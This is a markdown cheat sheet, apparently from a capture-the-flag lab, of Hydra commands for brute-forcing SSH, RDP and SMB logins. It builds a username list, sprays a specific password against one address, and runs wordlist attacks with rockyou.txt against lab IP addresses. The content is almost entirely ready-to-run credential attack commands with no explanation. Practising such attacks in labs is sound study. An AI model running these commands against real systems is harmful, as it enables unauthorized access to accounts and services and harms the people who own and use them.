 ## Hydra
```sh
sudo apt-get install hydra
```

```sh
echo "root" > user.txt
echo "optimus" >> user.txt
echo "albert" >> user.txt
echo "andreas" >> user.txt
echo "christine" >> user.txt
echo "maria" >> user.txt

hydra -L user.txt -p 'funnel123#!#' 10.129.228.195 ssh
```

## Login Brute Forcing SSH
```sh
hydra -l sam -P mut_password.list ssh://10.129.31.10
hydra -L user.list -P password.list ssh://10.129.42.197
```

## Login Brute Forcing Rdp
```sh
hydra -L user.list -P password.list rdp://10.129.42.19
```

## Login Brute Forcing SMB
```sh
hydra -L user.list -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt smb://10.129.42.197
hydra -l sam -P mut_password.list smb://10.129.31.10
```

## examples
```shell 
hydra -L user.list -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt smb://10.129.42.197
```
